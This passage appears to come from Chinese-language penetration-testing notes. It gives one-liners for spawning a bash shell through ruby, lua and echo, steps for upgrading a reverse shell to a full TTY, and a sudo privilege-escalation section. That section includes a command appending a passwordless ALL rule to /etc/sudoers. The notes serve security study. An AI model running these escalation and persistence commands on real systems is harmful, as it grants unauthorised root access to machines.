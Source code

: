 ```
ruby -e 'exec "/bin/bash"'
```
#### lua
```
lua -e "os.execute('/bin/bash')"
```
#### echo
```
echo os.system('/bin/bash')
echo && 'bash'
```

参考文档：
[Linux 反向 shell 升级为完全可用的 TTY shell](https://www.cnblogs.com/sainet/p/15783539.html)

### 手动设置 `TERM` 环境变量
```
export TERM=xterm
export TERM=xterm-256color
```
### 别名设置

临时别名：  
```
alias ll='ls -l'
```
永久别名：
修改 profile 文件包括 `~/.bashrc` 或 `~/.bash_profile`
```bash
alias ll='ls -l'
```
查看别名：
```
alias
```

### 手动设置终端的行数和宽度
计算宽度
```sh
stty -a |grep 'row'|awk -F'[ ;]+' '{print "stty "$4,$5,$6.$7}'
```


## 6.4、sudo提权

提权指南: [https://gtfobins.github.io](https://gtfobins.github.io)

```
sudo -u admin /bin/bash
```
可写文件添加sudo权限提权
```
echo 'ALL ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```
